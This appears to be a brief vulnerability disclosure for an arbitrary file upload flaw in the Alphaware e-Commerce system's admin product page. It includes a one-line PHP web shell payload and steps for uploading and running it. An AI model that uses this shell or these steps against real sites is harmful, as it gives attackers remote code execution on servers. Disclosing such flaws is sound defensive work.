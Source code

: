 ## Arbitrary file upload exists in Alphaware e-Commerce system

### Any file upload

Enter the background management page

admin_feature.php  add a product

![3](3.png)

You need to add files here, you can upload any file

Upload a malicious php file

```
<?php @eval($_REQUEST[c]);?>
```

![4](4.png)



The file is uploaded successfully, check the product image to find the php file path

![5](5.png)

Access the php file and execute the phpinfo command

![6](6.png)

### Vulnerable code

![7](7.png)

Upload the file directly without any filtering



### The system download link

https://www.sourcecodester.com/php/11676/alphaware-simple-e-commerce-system.html